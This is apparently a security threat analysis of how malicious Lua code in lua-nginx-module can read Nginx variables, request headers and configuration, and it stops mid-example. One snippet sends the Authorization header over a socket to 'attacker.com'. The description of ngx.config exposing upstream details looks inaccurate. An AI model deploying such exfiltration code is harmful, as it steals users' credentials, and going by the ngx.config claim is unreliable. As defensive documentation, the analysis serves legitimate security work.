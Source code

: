 ## Deep Dive Analysis: Access to Sensitive Nginx Internals

This analysis provides a comprehensive look at the "Access to Sensitive Nginx Internals" threat within the context of an application utilizing `lua-nginx-module`. We will explore the attack vectors, potential impacts, and delve deeper into effective mitigation and detection strategies.

**Threat Reiteration:**

Malicious or poorly written Lua code within the Nginx environment can exploit the `lua-nginx-module`'s capabilities to access sensitive internal Nginx data structures and APIs. This unauthorized access can lead to the exposure of confidential information, potentially enabling further attacks.

**Detailed Attack Vectors and Mechanisms:**

The threat hinges on the power and flexibility granted by `lua-nginx-module`. While this enables powerful customizations, it also introduces a significant attack surface if not handled carefully. Here's a breakdown of how the listed components can be exploited:

* **`ngx.var`:** This table provides access to Nginx variables, including request headers, server variables, and even custom variables set by other modules.
    * **Exploitation:** Malicious Lua code can iterate through `ngx.var` or directly access specific variables containing sensitive information. For example, accessing `ngx.var.http_authorization` to steal API keys or authentication tokens.
    * **Example:**
        ```lua
        -- Malicious Lua code
        local auth_header = ngx.var.http_authorization
        if auth_header then
          -- Send the header to an external attacker-controlled server
          local sock = ngx.socket.tcp()
          sock:connect("attacker.com", 80)
          sock:send("Leaked Auth Header: " .. auth_header .. "\r\n")
          sock:close()
        end
        ```

* **`ngx.req.get_headers()`:** This function allows retrieval of request headers.
    * **Exploitation:** Similar to `ngx.var`, attackers can extract sensitive headers like `Cookie`, `Authorization`, or custom headers containing API keys or internal identifiers.
    * **Example:**
        ```lua
        -- Malicious Lua code
        local headers = ngx.req.get_headers()
        if headers["X-Internal-API-Key"] then
          -- Log the API key (bad practice!)
          ngx.log(ngx.ERR, "Leaked API Key: ", headers["X-Internal-API-Key"])
        end
        ```

* **`ngx.config`:** This table provides read-only access to the Nginx configuration.
    * **Exploitation:** Attackers can glean information about upstream servers, internal network configurations, server names, and potentially even security configurations. This knowledge can be used to map the application's infrastructure and identify further vulnerabilities.
    * **Example:**
        ```lua
        -- Malicious Lua code
        for k, v in pairs(ngx.config) do
          if type(v) == "table" then
            for sub_k, sub_v in pairs(v) do
              if string.find(sub_k, "upstream") then
                -- Log upstream details (bad practice!)
                ngx.log(ngx.ERR, "Found upstream: ", sub_k, " - ", sub_v)
              end
            end
          end
        end
